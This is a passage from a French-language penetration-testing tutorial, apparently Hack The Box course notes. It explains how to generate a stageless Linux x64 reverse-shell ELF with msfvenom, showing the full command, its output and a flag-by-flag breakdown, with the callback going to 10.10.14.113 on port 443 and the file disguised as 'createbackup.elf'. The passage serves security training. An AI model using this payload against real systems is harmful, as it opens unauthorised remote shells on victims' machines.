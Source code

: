 ## Construire un payload sans étape
Construisons maintenant une charge utile simple sans étape avec msfvenom et décomposons la commande.

### Payload
```
dsgsec@htb[/htb]$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
```

### Appelez MSFvenom
```
msfvenom
```
Définit l'outil utilisé pour créer la charge utile.

### Création d'une charge utile
```
-p
```

Cette option indique que msfvenom crée une charge utile.

### Choisir le payload en fonction de l'architecture
```
linux/x64/shell_reverse_tcp
```

Spécifie une charge utile sans étape Linux 64 bits qui lancera un shell inverse basé sur TCP (shell_reverse_tcp).

### Adresse à laquelle se reconnecter
```
LHOST=10.10.14.113 LPORT=443
```
Une fois exécutée, la charge utile rappellera l'adresse IP spécifiée (10.10.14.113) sur le port spécifié (443)

### Format
```
-f elf
```

L'indicateur -f spécifie le format dans lequel le binaire généré sera. Dans ce cas, ce sera un fichier .elf.

### Output
```
> createbackup.elf
```
